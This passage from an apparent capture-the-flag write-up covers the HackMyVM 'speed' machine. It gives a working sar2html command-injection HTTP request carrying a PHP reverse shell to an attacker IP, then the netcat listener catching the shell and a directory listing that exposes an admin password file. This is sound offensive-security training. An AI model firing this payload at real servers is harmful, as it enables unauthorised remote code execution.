 TRACEROUTE
HOP RTT     ADDRESS
1   0.30 ms 10.10.10.67

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.38 seconds
{% endhighlight %}

On the main website we had **sar2html** version 3.2.2 which famously has a command injection [exploit](https://www.exploit-db.com/exploits/47204) in version 3.2.1. On the project [github](https://github.com/cemtan/sar2html) page, it describes the release of 3.2.2:

>sar2html supports Ubuntu 20 now.  
minor fixes

Um, ok. Does the command injection still work? Actually, yes:

{% highlight shell %}
GET /index.php?plot=;php+-r+'$sock%3dfsockopen("10.10.10.2",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.10.67
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2gk0g046qkm2crb2pi8p9jeqa7; miindex2=1
Upgrade-Insecure-Requests: 1
{% endhighlight %}

and 

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/speed]
└─# nc -nvlp 1234                                                
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.67] 53314
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@speed:~/html$ sudo -l
sudo -l
bash: sudo: command not found
www-data@speed:~/html$
{% endhighlight %}

With this, we can find some credentials for the **OpenLiteSpeed 1.5.12** running on Port 7080. 

{% highlight shell %}
www-data@speed:/usr/local/lsws$ ls -lash
ls -lash
total 132K
4.0K drwxr-xr-x 22 root   root    4.0K Feb 17  2021 .
4.0K drwxr-xr-x 11 root   root    4.0K Feb 17  2021 ..
4.0K drwxr-xr-x  6 root   root    4.0K Feb 17  2021 Example
 36K -rw-r--r--  1 root   root     35K Feb 17  2021 GPL.txt
4.0K -rw-r--r--  1 root   root       7 Feb 17  2021 VERSION
4.0K drwxr-xr-x  4 root   root    4.0K Feb 17  2021 add-ons
4.0K drwxr-xr-x  9 root   root    4.0K Feb 17  2021 admin
4.0K -rwxrwxrwx  1 root   root      41 Feb 17  2021 adminpasswd
4.0K drwxr-xr-x  2 nobody nogroup 4.0K Jan 23 03:55 autoupdate
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 backup
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 bin
4.0K drwxr-xr-x  2 nobody nogroup 4.0K Feb 17  2021 cachedata
4.0K drwx--x---  2 nobody nogroup 4.0K Jan 22 21:24 cgid
4.0K drwxr-x---  5 lsadm  nogroup 4.0K Feb 17  2021 conf
4.0K drwxr-xr-x  6 root   root    4.0K Feb 17  2021 docs
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 fcgi-bin